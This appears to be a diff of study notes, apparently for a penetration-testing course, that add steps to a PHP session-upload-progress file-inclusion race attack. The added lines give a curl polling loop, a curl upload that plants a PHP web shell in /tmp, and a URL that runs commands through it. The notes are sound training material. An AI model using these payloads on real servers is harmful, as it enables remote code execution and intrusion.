

Before and after one commit to favorite986141/jamescao, a Markdown page: Cpent/Day5.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/Cpent/Day5.md
+++ b/Cpent/Day5.md
@@ -196,3 +196,19 @@ PHP_SESSION_UPLOAD_PROGRESS
     evildropper:<?php file_put_contents('/tmp/shell.php','<?php system($_GET[3])?>'); ?>
 <img  alt="image" src="https://github.com/user-attachments/assets/91179427-5665-4ce2-98ae-a3fafea3d966">
 <img  alt="image" src="https://github.com/user-attachments/assets/8ba98314-7dee-4646-a85f-69c53597d65a">
+
+    寫一個迴圈並grep字串evildropper就停止
+    while true; do (curl -s 'http://<ip_addr>/inc.php?file=/var/lib/php5/sess_uploadupload' | grep evildropper); done
+<img  alt="image" src="https://github.com/user-attachments/assets/748dc45b-a600-406f-84d2-e28c55d76fdc">
+
+    上傳垃圾檔案，讓shell能夠有足夠的時間塞到tmp
+    curl http://<ip_addr>/inc.php -H 'Cookie: PHPSESSID=uploadupload' -F
+'PHP_SESSION_UPLOAD_PROGRESS=<evildropper.txt' -F 'files=@junk.txt'
+<img alt="image" src="https://github.com/user-attachments/assets/44077993-e9d7-4e9d-8995-7b6d11931d42">
+
+    確認有成功塞進去tmp
+<img  alt="image" src="https://github.com/user-attachments/assets/ecb6e773-c764-48f2-bf8e-f7aa1e743c32">
+
+    執行瀏覽器塞入指令
+    http://192.168.0.10/imc.php?f=/tmp/shell.php&3=id
+<img  alt="image" src="https://github.com/user-attachments/assets/e4f6f37b-fea8-4e75-bdc0-69bc14707f30">
```
